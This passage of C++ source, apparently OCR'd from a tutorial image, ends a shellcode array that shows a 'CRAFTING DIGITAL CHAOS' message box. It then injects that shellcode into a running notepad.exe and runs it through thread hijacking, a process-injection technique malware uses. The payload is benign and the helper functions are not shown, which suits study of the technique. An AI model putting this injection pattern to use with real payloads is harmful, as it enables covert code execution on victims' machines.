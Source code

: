 ```cpp
        "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
        "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
        "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\xfe\x00\x00\x00\x3e"
        "\x4c\x8d\x85\x15\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
        "\x56\x07\xff\xd5\x48\x31\xc9\x41\xba\xf0\xb5\xa2\x56\xff"
        "\xd5\x43\x52\x41\x46\x54\x49\x4e\x47\x20\x44\x49\x47\x49"
        "\x54\x41\x4c\x20\x43\x48\x41\x4f\x53\x00\x4d\x65\x73\x73"
        "\x61\x67\x65\x42\x6f\x78\x00";

    DWORD dwProcessID;
    HANDLE hProcess, hThread;

    if (!FindNotepadProcess(&dwProcessID, &hProcess, &hThread)) {
        return 1;
    }

    PVOID pAddress;
    if (!InjectShellcode(hProcess, buf, sizeof(buf), &pAddress)) {
        CloseHandle(hThread);
        CloseHandle(hProcess);
        return 1;
    }

    if (!ThreadHijacking(hThread, pAddress)) {
        CloseHandle(hThread);
        CloseHandle(hProcess);
        return 1;
    }

    CloseHandle(hThread);
    CloseHandle(hProcess);

    return 0;
}
```

Execute the code and make sure notepad.exe is running and the message box will be triggered.
